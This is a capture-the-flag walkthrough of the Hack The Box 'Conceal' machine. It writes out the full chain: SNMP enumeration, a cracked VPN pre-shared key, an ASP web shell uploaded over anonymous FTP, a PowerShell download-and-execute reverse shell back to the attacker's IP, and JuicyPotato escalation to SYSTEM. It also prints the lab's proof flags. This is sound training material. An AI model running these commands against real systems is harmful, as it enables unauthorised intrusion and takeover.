







hackthebox Conceal
Released: 5th Jan 2019 / Pwned: September 13th 2019 - [+] Solved whilst Retired

Conceal is hidden behind a VPN. Once you've configured the IPSec connection and connected successfully, the box opens up. There's a an FTP server which allows for anonymous upload of files, which you can use with the web server to gain a shell on the box. To priv-esc, you can use JuicyPotato to send a SYSTEM shell back to your attacking machine.
1) Nmap
Initial scan:
nmap -sC -sV -O -oN nmap/initial.txt 10.10.10.116
-sC default scripts
-sV service enumeration
-O OS detection
-oN default output
Results:
root@gotham:~/ctf/conceal# mkdir nmap
root@gotham:~/ctf/conceal# nmap -sV -sC -O -oN nmap/initial.txt 10.10.10.116
[...]
Host is up (0.035s latency).
All 1000 scanned ports on 10.10.10.116 are filtered
Too many fingerprints match this host to give specific OS details
Nothing :/
A UDP scan shows that port 500 is open.
root@gotham:~/ctf/conceal# nmap -sU 10.10.10.116
[...]
PORT STATE SERVICE
500/udp open isakmp
I ran service detection -sV and scripts -sC against port 500 to get more info about the service.
root@gotham:~/ctf/conceal# nmap -p 500 -sU -sV -sC 10.10.10.116
[...]
PORT STATE SERVICE VERSION
500/udp open isakmp Microsoft Windows 8
| ike-version:
| vendor_id: Microsoft Windows 8
| attributes:
| MS NT5 ISAKMPOAKLEY
| RFC 3947 NAT-T
| draft-ietf-ipsec-nat-t-ike-02\n
| IKE FRAGMENTATION
| MS-Negotiation Discovery Capable
|_ IKE CGA version 1
Service Info: OS: Windows 8; CPE: cpe:/o:microsoft:windows:8, cpe:/o:microsoft:windows
2) Port 500 - isakmp
isakmp stands for Internet Security Association and Key Management Protocol.
The Internet Key Exchange (IKE) is used to authenticate IPsec (VPN) connections.
And the Security Association defines the cryptographic keys used for connection.
With those 2 together, port 500 is used to authenticate VPN connections.
Therefore, to access Conceal, we need to set up a VPN configuration so that we can connect to the box.
2a) ike-scan
ike-scan can be used to gain information about the IPSec connection.
root@gotham:~/ctf/conceal# ike-scan -M 10.10.10.116
Starting ike-scan 1.9.4 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.10.116 Main Mode Handshake returned
HDR=(CKY-R=ca0a7c616a6bb432)
SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration(4)=0x00007080)
VID=1e2b516905991c7d7c96fcbfb587e46100000009 (Windows-8)
VID=4a131c81070358455c5728f20e95452f (RFC 3947 NAT-T)
VID=90cb80913ebb696e086381b5ec427b1f (draft-ietf-ipsec-nat-t-ike-02\n)
VID=4048b7d56ebce88525e7de7f00d6c2d3 (IKE Fragmentation)
VID=fb1de3cdf341b7ea16b7e5be0855f120 (MS-Negotiation Discovery Capable)
VID=e3a5966a76379fe707228231e5ce8652 (IKE CGA version 1)
Ending ike-scan 1.9.4: 1 hosts scanned in 0.046 seconds (21.70 hosts/sec). 1 returned handshake; 0 returned notify
SA= are the Security Association parameters.
The VID entries are IKE (Internet Key Exchange) settings.
Using the information above, we can set up a IPSec VPN connection to Conceal.
Gain VPN Access
3) strongSwan
strongswan is an IPsec VPN implementation that supports linux.
Install it with apt install strongswan.
root@gotham:~/ctf/conceal# apt install strongswan -y
There are 2 configuration files you need to set up:
• /etc/ipsec.conf - the VPN connection settings
• /etc/ipsec.secrets - passwords/keys
3a) /etc/ipsec.conf
Edit /etc/ipsec.conf to configure the VPN connection parameters.
strongSwan's ipsec.conf man page is here - https://wiki.strongswan.org/projects/strongswan/wiki/ConnSection
root@gotham:~/ctf/conceal# nano /etc/ipsec.conf
[...]
#htb Conceal connection
conn conceal
auto=add
type=transport
keyexchange=ikev1
fragmentation=yes
ike=3des-sha1-modp1024
esp=3des-sha1
authby=psk
left=10.10.14.25
leftprotoport=tcp
right=10.10.10.116
rightprotoport=tcp
Explanation of settings:
auto=add
◇ auto defines what happens when you start the connection by running ipsec
◇ start means that connection will connect automatically when you ipsec start
◇ add means that connection will load a connection but not start it
type=transport
◇ the type of connection
◇ If type is the 1st value in the config, it fails, so I put it 2nd
◇ transport = host-to-host transport mode
◇ tunnel = host-to-host, host-to-subnet or subnet-to-subnet
- tunnel requires defining IPs and subnets to connect to.
- If you find subnets when running ike-scan or snmp-check, then you'll probably need tunnel mode
◇ passthrough = no IPsec processing should be done at all
◇ drop = packets should be discarded
keyexchnage=ikev1
◇ We know the keyexchange is ikev1 from ike-scan and the Nmap script scan of port 500
▪ ike-scan - VID=e3a5966a76379fe707228231e5ce8652 (IKE CGA version 1)
▪ nmap - IKE CGA version 1
fragmentation=yes
◇ if ike supports fragmentation, use it!
◇ oversized messages will be sent in fragments (makes sending large amounts of data e.g. easier/more stable)
◇ ike-scan reported that Conceal does support ike fragmentation - VID=4048b7d56ebce88525e7de7f00d6c2d3 (IKE Fragmentation)
ike=3des-sha1-modp1024
◇ ike defines the Ike key
◇ This can be found in the ike-scan output - Enc=3DES Hash=SHA1 Group=2:modp1024
◇ This is phase 1 of IKE authentication/key exchange (useful to know for debugging vpn connection)
esp=3des-sha1
◇ esp stands for Encapsulating Security Payload
◇ esp specifies the cipher suite, in the format encryption-hashtype
◇ You can retrieve this info from ike-scan - Enc=3DES Hash=SHA1
◇ This is phase 2 of IKE authentication/key exchange
authby=psk
◇ authby defines IKE's authentication method
◇ You should get this info from ike-scan - Auth=PSK
left=10.10.14.25
◇ left is where you're connecting from/source IP
leftprotoport=tcp
◇ leftprotoport defines the source port you're connecting via
◇ If TCP fails, try UDP
right=10.10.10.116
◇ right is where you're connecting to/destination IP
rightprotoport=tcp
◇ rightprotoport defines the destination port you're connecting to
◇ If TCP fails, try UDP
Troubleshooting
#Connection Errors
If you encounter errors, best place to troubleshoot according to IppSec is netgate, who make PfSense (an OpenBSD firewall) -
https://docs.netgate.com/pfsense/en/latest/vpn/ipsec/ipsec-troubleshooting.html
- and search for the error message you get.
#Data/packet loss errors/weird issues
If you're connected but suspect your data isn't being completely sent/having weird issues, try lowering your MTU - the Maximum Transmission Unit.
1000 is low but it should work (need to learn more about this).
ifconfig <interface> mtu 100
ifconfig tun0 mtu 1000
3b) /etc/ipsec.secrets
/etc/ipsec.secrets stores the VPN authentication keys/passwords.
ike-scan reported that Conceal uses PSK authentication, but we currently don't have a key.
Nmap
I returned to Nmap and ran script scans against all TCP and UDP ports, thinking I must have missed something.
Eventually, you'll find that UDP port 161 is in fact open (despite being reported open|filtered initially).
root@gotham:~/ctf/conceal# nmap -p 161 -sU -sV -sC 10.10.10.116
[...]
PORT STATE SERVICE VERSION
161/udp open snmp SNMPv1 server (public)
[...]
| snmp-win32-software:
| Microsoft Visual C++ 2008 Redistributable - x64 9.0.30729.6161; 2018-10-12T20:10:30
| Microsoft Visual C++ 2008 Redistributable - x86 9.0.30729.6161; 2018-10-12T20:10:22
|_ VMware Tools; 2018-10-12T20:11:02
| snmp-win32-users:
| Administrator
| DefaultAccount
| Destitute
|_ Guest
Service Info: Host: Conceal
snmp-check
Run snmp-check against the port.
You'll find a VPN PSK password hash in the Contact info.
root@gotham:~/ctf/conceal# snmp-check 10.10.10.116
snmp-check v1.9 - SNMP enumerator
Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)
[+] Try to connect to 10.10.10.116:161 using SNMPv1 and community 'public'
[*] System information:
Host IP address : 10.10.10.116
Hostname : Conceal
Description : Hardware: AMD64 Family 23 Model 1 Stepping 2 AT/AT COMPATIBLE - Software: Windows Version 6.3 (Build 15063 Multiprocessor Free)
Contact : IKE VPN password PSK - 9C8B1A372B1878851BE2C097031B6E43
Location : -
Uptime snmp : 00:19:34.51
Uptime system : 00:19:08.17
System date : 2019-9-12 11:18:02.8
Domain : WORKGROUP
[...]
PSK Password Crack
Crack the hash at hashkiller - https://hashkiller.co.uk/Cracker
9C8B1A372B1878851BE2C097031B6E43

The password is Dudecake1!
/etc/ipsec.secrets
With a PSK password, we can now configure /etc/ipsec.secrets.
The format in /etc/ipsec.secrets is <source> <destination> : PSK “<password>�.
My IP when doing this machine was 10.10.14.25, so my ipsec.secrets entry looked like this:
10.10.14.25 10.10.10.116 : PSK “Dudecake1!�
root@gotham:~/ctf/conceal# nano /etc/ipsec.secrets
[...]
# this file is managed with debconf and will contain the automatically created private key
include /var/lib/strongswan/ipsec.secrets.inc
10.10.14.25 10.10.10.116 : PSK "Dudecake1!"
3c) Connect
The IPsec VPN configuration is finally set up, and you can connect :)
Run ipsec stop to kill any related processes, and then ipsec start to start ipsec and load any connections.
root@gotham:~/ctf/conceal# ipsec stop
root@gotham:~/ctf/conceal# ipsec start
Starting strongSwan 5.8.0 IPsec [starter]...
root@gotham:~/ctf/conceal#
To start the connection to Conceal, run ipsec up <config name>
In the output, look for <connection name> established to check that you've connected successfully with no errors.
root@gotham:~/ctf/conceal# ipsec up conceal
[...]
generating QUICK_MODE request 4281661862 [ HASH ]
sending packet: from 10.10.14.25[500] to 10.10.10.116[500] (60 bytes)
connection 'conceal' established successfully
You can also run ipsec status to double-check.
root@gotham:~/ctf/conceal# ipsec status
Security Associations (1 up, 0 connecting):
conceal[1]: ESTABLISHED 101 seconds ago, 10.10.14.25[10.10.14.25]...10.10.10.116[10.10.10.116]
conceal{1}: INSTALLED, TRANSPORT, reqid 1, ESP SPIs: cba40473_i 011b6740_o
conceal{1}: 10.10.14.25/32[tcp] === 10.10.10.116/32[tcp]
Nice! We're finally on the box :)
4) Nmap - Round 2
Nmap's default TCP SYN scan will fail over a VPN.
You have to use -sT to run a full TCP CONNECT scan.
Quickly scan all TCP ports on Conceal, and then run service detection and scripts against the open ports.
ports=$(nmap -p- -sT -T4 10.10.10.116 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) - scans all tcp ports and stores the open ports from the Nmap output into a comma-separated stored in a $ports environment vairables
nmap -p $ports -T4 -sT -sV -sC -O -oN nmap/tcp-open_ports-sVCO.txt 10.10.10.116 - scan the ports in $ports environment variable with service detection and scripts
root@gotham:~/ctf/conceal# echo "[+] Scanning all TCP ports.."; ports=$(nmap -p- -sT -T4 10.10.10.116 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//); echo "[+] Scanning TCP ports $ports with -sV -sC..."; nmap -p $ports -T4 -sT -sV -sC -O -oN nmap/tcp-open_ports-sVCO.txt 10.10.10.116
[+] Scanning all TCP ports..
[+] Scanning TCP ports 21,80,135,139,445,49664,49665,49666,49667,49668,49669,49670 with -sV -sC...
Starting Nmap 7.70 ( https://nmap.org )
Nmap scan report for 10.10.10.116
Host is up (0.032s latency).
PORT STATE SERVICE VERSION
21/tcp open ftp Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|_ SYST: Windows_NT
80/tcp open http Microsoft IIS httpd 10.0
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds?
49664/tcp open msrpc Microsoft Windows RPC
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
49668/tcp open msrpc Microsoft Windows RPC
49669/tcp open msrpc Microsoft Windows RPC
49670/tcp open msrpc Microsoft Windows RPC
[...]
Ports
• 21/ftp - Anonymous login is enabled, which is worth investigating
• 80/http - A web server, which are usually of interest
• 139/smb - A network share
• 445/smb - Secure network share
• And lots of RPC ports
5) 21/ftp - Test file upload
Nmap informed us that we anonymous login is enabled on the ftp server.
root@gotham:~/ctf/conceal/80# ftp 10.10.10.116
Connected to 10.10.10.116.
220 Microsoft FTP Service
Name (10.10.10.116:root): Anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
Test if you can upload files.
Create a local test.txt file.
root@gotham:~/ctf/conceal/80# echo "hey" > test.txt
And upload it with put.
ftp> put test.txt
local: test.txt remote: test.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
5 bytes sent in 0.00 secs (39.0625 kB/s)
We can upload files :) which will prove useful.
6) 80/http
The website can be used to access the files you upload via FTP.
6a) gobuster
If you gobuster the web site, you'll find an /upload directory where you can access your uploaded ftp files.
root@gotham:~/ctf/conceal/80# gobuster -e -u http://10.10.10.116 -w /usr/share/seclists/Discovery/Web-Content/common.txt -o gb-common.txt
=====================================================
Gobuster v2.0.1 OJ Reeves (@TheColonial)
=====================================================
[+] Mode : dir
[+] Url/Domain : http://10.10.10.116/
[+] Threads : 10
[+] Wordlist : /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Expanded : true
[+] Timeout : 10s
=====================================================
2019/09/12 15:03:28 Starting gobuster
=====================================================
http://10.10.10.116/upload (Status: 301)
=====================================================
2019/09/12 15:04:55 Finished
=====================================================
In http://10.10.10.116/upload, there exists the test.txt we uploaded eariler.
(if it's not there, it's because the directory gets cleared out every few minutes. re-upload if your file disappears)

6b) Web Shell - .asp or .aspx tes
Our goal now is to get a web shell.
Considering this is an IIS server, we should first check if we can run .asp or .aspx.
Make a copy of test.txt as a .asp file and a .aspx file.
root@gotham:~/ctf/conceal/80# cp test.txt test.asp
root@gotham:~/ctf/conceal/80# cp test.txt test.aspx
And upload both of them to the web server via ftp.
[...]
ftp> put test.asp
ftp> put test.aspx
We see them in both in /upload.

.asp works fine.

But .aspx returns an extension configuration error.

Therefore, to get a web shell, we'll upload a .asp file!
6c) .asp Web Shell
The standard Kali .asp web shell in /usr/share/webshells/asp/ produces an error.
Nmap reported that the IIS server is version 10, so I went to look for a more recent .asp web shell (cmdasp.asp in /usr/share/webshells/asp is from 2000),
According to the author, this .asp web shell works on newer IIS versions.
https://github.com/tennc/webshell/blob/master/asp/webshell.asp
Download the web shell and upload it via ftp.
root@gotham:~/ctf/conceal/80# wget https://raw.githubusercontent.com/tennc/webshell/master/asp/webshell.asp
[...]
[...]
ftp> put webshell.asp
local: webshell.asp remote: webshell.asp
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1407 bytes sent in 0.00 secs (6.4511 MB/s)
Browse to the uploaded web shell at http://10.10.10.116/upload/webshell.asp

You can run some general system recon here, and then move to get an interactive shell.
Gain Access
7) PowerShell Reverse Shell
I used Nishang's Invoke-PowerShellTcp.ps1 script to get a reverse shell on the box.
Download Nishang's Invoke-PowerShellTcp.ps1 script - https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
root@gotham:~/ctf/conceal/nishang# wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
...
Edit Invoke-PowerShellTcp.ps1 and write the IP and port of your attacking machine for the shell to connect to at the bottom of the script.
root@gotham:~/ctf/conceal/nishang# nano Invoke-PowerShellTcp.ps1
...
catch
{
Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port."
Write-Error $_
}
}
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.25 -Port 9001
Start a listener on your attacking machine to receive the shell.
root@gotham:~# nc -lvnp 9001
listening on [any] 9001 ...
Serve Nishang's PowerShellTcp.ps1 script to the target using python -m SimpleHTTPServer.
root@gotham:~/ctf/conceal/nishang# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
Send a command via the webshell.asp web shell that downloads Nishang's PowerShell script from your attacking machihne and executes it.
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.25:8000/Invoke-PowerShellTcp.ps1')"
If the command ran successfully on the webshell, you should have a shell on your listener.
[...]
listening on [any] 9001 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.10.116] 49674
Windows PowerShell running as user CONCEAL$ on CONCEAL
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\Windows\SysWOW64\inetsrv>whoami
conceal\destitute
PS C:\Windows\SysWOW64\inetsrv>
Priv-Esc
8) whoami /all
Check the full extent of your privileges using whoami /all.
SeImpersonatePrivilege is enabled, which means that we can use JuicyPotato to elevate our privileges.
PS C:\Windows\SysWOW64\inetsrv>whoami /all
[...]
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= =========================================
SeAssignPrimaryTokenPrivilege Replace a process level token Disabled
SeIncreaseQuotaPrivilege Adjust memory quotas for a process Disabled
SeShutdownPrivilege Shut down the system Disabled
SeAuditPrivilege Generate security audits Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeUndockPrivilege Remove computer from docking station Disabled
SeImpersonatePrivilege Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
SeTimeZonePrivilege Change the time zone Disabled
9) JuicyPotato.exe setup
JuicyPotato is available here - https://github.com/ohpe/juicy-potato
RottenPotatoNG is the original version of JuicyPotato.
RottenPotatoNG, when you have SeImpersonate or SeAssignPrimaryToken privileges, exploits a privilege escalation chain based on the BITS (Background Intelligent Transfer Service) service having a MiTM listener on 127.0.0.1:6666.
JuicyPotato expands upon RottenPotatoNG.
Apparently it doesn't work on 1809.
To get a shell with JuicyPotato, we'll create a .bat script which downloads Nishang's Invoke-PowerShellTcp.ps1 script from our attacking server and executes it. The .bat script will run as SYSTEM, and we should get a SYSTEM shell on our listener.
9a) Upload .bat script
Create a .bat script which includes the command that JuicyPotato will run as SYSTEM.
root@gotham:~/ctf/conceal/ftp# nano adminshell.bat
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.25:8000/Invoke-PowerShellTcp.ps1')"
Upload it to target system using ftp.
root@gotham:~/ctf/conceal/21ftp# ftp 10.10.10.116
Connected to 10.10.10.116.
220 Microsoft FTP Service
Name (10.10.10.116:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
[...]
ftp> put adminshell.bat
And on your reverse shell, copy the .bat into a directory you can write to (just to be safe).
I chose destitute's Documents folder.
PS C:\Windows\SysWOW64\inetsrv> cd \users\destitute\documents
PS C:\users\destitute\documents> cp \inetpub\wwwroot\upload\adminshell.bat .
9b) Upload JuicyPotato.exe
Download JuicyPotato.exe from the releases page on github
https://github.com/ohpe/juicy-potato/releases
root@gotham:~/ctf/conceal/21ftp# wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
[...]
Log in to the ftp server and set the file transfer mode to binary, and upload the file.
root@gotham:~/ctf/conceal/21ftp# ftp 10.10.10.116
Connected to 10.10.10.116.
220 Microsoft FTP Service
Name (10.10.10.116:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> binary
200 Type set to I.
ftp> put JuicyPotato.exe
On your reverse shell, copy the exe to where your adminshell.bat script is.
I'm in destitute's Documents folder.
PS C:\users\destitute\documents> cp \inetpub\wwwroot\upload\JuicyPotato.exe .
10) JuicyPotato.exe
Start a listener on your attacking machine to receive the SYSTEM shell
root@gotham:~/ctf/conceal# nc -lvnp 9001
listening on [any] 9001 ...
Serve the Invoke-PowerShellTcp.ps1 script that the .bat script will run using python -m SimpleHTTPServer.
root@gotham:~/ctf/conceal# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
Run JuicyPotato.exe
-t * - to try both CreateProcessWithTokenW and CreateProcessAsUser create process calls
-p - to specify the program/command to run
-l - to specify a random COM port to listen on
PS C:\users\destitute\documents> .\JuicyPotato.exe -t * -p adminshell.bat -l 6767
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 6767
COM -> recv failed with error: 10038
JuicyPotato errors.
10a) Different CLSID
If JuicyPotato errors, try a different CLSID - https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
Windows 10 Professional - https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_10_Pro
wuaserv is the Windows Update Service, which should most definitely be installed.
Grab its CLSID and try JuicyPotato again - {e60687f7-01a1-40aa-86ac-db1cbf673334}
PS C:\users\destitute\documents> .\JuicyPotato.exe -t * -p adminshell.bat -l 6789 -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"
Testing {e60687f7-01a1-40aa-86ac-db1cbf673334} 6789
......
[+] authresult 0
{e60687f7-01a1-40aa-86ac-db1cbf673334};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK
It worked!
You should see a Invoke-PowerShellTcp.ps1 being retrieved from your web server.
[...]
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.116 - - [13/Sep/2019 14:31:14] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
And a shell connect on your listener!
[...]
listening on [any] 9001 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.10.116] 49778
Windows PowerShell running as user CONCEAL$ on CONCEAL
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\Windows\system32>whoami
nt authority\system
Go grab user.txt and root.txt :)
PS C:\Windows\system32> cat C:\Users\Destitute\Desktop\proof.txt
6E9FDFE0DCB66E700FB9CB824AE5A6FF
PS C:\Windows\system32> cat C:\Users\Administrator\Desktop\proof.txt
5737DD2EDC29B5B219BC43E60866BE08